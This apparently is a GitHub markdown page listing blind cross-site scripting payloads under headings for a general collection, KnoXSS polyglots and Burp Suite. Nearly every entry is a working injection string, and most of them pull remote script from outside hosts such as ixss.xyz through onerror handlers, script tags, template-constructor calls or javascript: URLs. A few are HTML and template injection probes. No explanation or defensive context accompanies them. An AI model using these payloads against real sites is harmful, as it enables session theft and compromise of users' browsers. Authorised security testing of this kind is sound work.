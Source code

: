 ## General Payload Collection:
```bash
-->';"><img src=x onerror=import('//ixss.xyz')>//
```
```bash
-->';"><script src=//ixss.xyz></script><x="
```
```bash
"><img/src/onerror=import('//ixss.xyz')>
```
```bash
$.getScript("//ixss.xyz")
```
```bash
{{_openBlock.constructor('import("//ixss.xyz")')()}}{{constructor.constructor('import("//ixss.xyz")')()}}
```
```bash
javascript:import('//ixss.xyz')
```
```bash
javascript:eval('var a=document.createElement(\'script\');a.src=\'//ixss.xyz\';document.body.appendChild(a)')
```
```bash
';"/><h1>test{{7*7}}
```
```bash
HTMLi<h1>HTMLi&gt;h1&lt;Test{{7*7}}[[7*7]]
```

## KnoXSS
>Blind XSS Custom Vector - Short Polyglot (HTML & JS Main Cases)
```
'/*\'/*"/*\"/*</Script><Input/AutoFocus/OnFocus=/**/(import(/https:\\X55.is?1=19473/.source))//>
```
>Blind XSS Custom Vector - Full Polyglot (20+ XSS Cases): Best, for non-restricted inputs.

```
JavaScript://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(import(/https:\\X55.is?1=19473/.source))}//\76-->
```

## Burpsuite Payloads:
```
bxss
```
```
';\"><script src=//ixss.xyz></script><x=\"
```
```
';\"><img src onerror=import('//ixss.xyz')>
```
```
htmli
```
```
\"/><h1>test{{7*7}}[[7*7]]
```
